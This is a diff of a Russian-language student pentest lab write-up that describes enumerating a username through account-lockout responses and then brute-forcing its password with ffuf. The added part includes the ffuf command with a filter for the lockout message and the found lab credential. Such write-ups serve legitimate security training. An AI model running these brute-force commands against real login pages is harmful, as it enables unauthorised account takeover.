

Before and after one commit to mikhail-alaska/hse, a Markdown page: pentest/pr5/Nikolaev_mikhail_pr5.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Scripted auto-commit on change (2025-10-22 15:11:41) by gitwatch.sh

````diff
--- a/pentest/pr5/Nikolaev_mikhail_pr5.md
+++ b/pentest/pr5/Nikolaev_mikhail_pr5.md
@@ -85,3 +85,13 @@ ffuf -request req.txt -request-proto https \
 
 В empty 10 рандомных строк, так что каждый юзернейм 10 раз повторился. Фильтруя по обычному размеру ответа
 я нашел, что в случае с юзернеймом argentina размер больше, а в сообщении находится `You have made too many incorrect login attempts`
+
+Теперь перебираю пароли. Сделал фильтр на ошибку по таймауту и после нескольких прогонов заметил, что только один пароль каждый раз возвращается.
+
+argentina:starwars
+
+```
+ffuf -request req.txt -request-proto https \
+  -w pass.txt \
+  -c -fr 'You have made too many incorrect login'
+```
````
